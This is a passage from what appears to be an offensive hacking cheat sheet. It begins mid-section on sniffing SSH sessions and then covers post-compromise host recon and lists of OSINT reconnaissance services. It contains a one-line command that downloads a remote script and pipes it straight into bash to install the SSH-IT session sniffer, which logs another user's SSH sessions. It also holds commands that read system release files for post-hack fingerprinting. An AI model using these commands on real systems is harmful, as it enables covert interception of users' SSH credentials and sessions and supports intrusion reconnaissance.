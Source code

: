 The SSH session will be sniffed and logged to *~/.ssh/logs/* the next time the user logs into his shell and uses SSH.

<a id="sshit-anchor"></a>
**9.iv Sniff a user's SSH session using SSH-IT**

The easiest way is using [https://www.thc.org/ssh-it/](https://www.thc.org/ssh-it/).

```sh
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

<a id="post-hack"></a>
**10.i. Find out Linux Distribution**

```sh
uname -a; lsb_release -a; cat /etc/*release /etc/issue* /proc/version
```

<a id="osint-anchor"></a>
**11.i. Intelligence Gathering**

| OSINT Hacker Tools ||
| --- | --- |
| https://osint.sh | Free. Subdomain Finder, DNS History, Public S3 Buckets, Reverse IP, Certificate Search and much more |
| https://cli.fyi | Free. curl/json interface to many services. Try `curl cli.fyi/me` or `curl cli.fyi/thc.org`. |
| https://hackertarget.com/ip-tools/ | Free OSINT Service (Reverse IP, MTR, port scan, CMS scans, Vulnerability Scans, API support) |
| https://account.shodan.io/billing/tour | Open Port DB & DNS Lookup from around the world |
| https://dnsdumpster.com/ | Domain Recon Tool |
| https://crt.sh/ | TLS Certificate Search |
| https://archive.org/web/ | Historical view of websites |
| https://www.farsightsecurity.com/solutions/dnsdb/ | DNS search (not free) |
| https://wigle.net/ | Wireless Network Mapper |
| https://radiocells.org/ | Cell Tower Informations |
| https://www.shodan.io/ | Search Engine to find devices & Banners (not free) |

| OSINT for Detectives ||
| --- | --- |
| https://start.me/p/rx6Qj8/nixintel-s-osint-resource-list | Nixintel's OSINT Resource List |
| https://github.com/jivoi/awesome-osint | Awesome OSINT list |
| https://cipher387.github.io/osint_stuff_tool_collection/ | OSINT tools collection |
| https://osintframework.com/ | Many OSINT tools |

<a id="Tools"></a>
**11.ii. Tools**
